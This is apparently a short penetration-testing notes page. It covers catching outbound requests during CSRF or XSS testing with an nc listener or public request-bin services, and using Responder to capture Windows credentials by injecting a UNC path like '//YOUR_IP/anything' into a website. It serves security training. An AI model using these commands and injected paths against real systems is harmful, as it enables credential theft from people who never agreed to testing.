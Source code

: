 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is network accessible, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

Otherwise, we may use online public solutions.
</div><div>

For instance, we can use API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/)
* [postbin](https://www.toptal.com/developers/postbin/)
* [ngrok](https://ngrok.com/)
* ...
</div></div>

<hr class="sep-both">

## Additional tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![server_side_attacks](../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) to catch Windows authentication requests.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>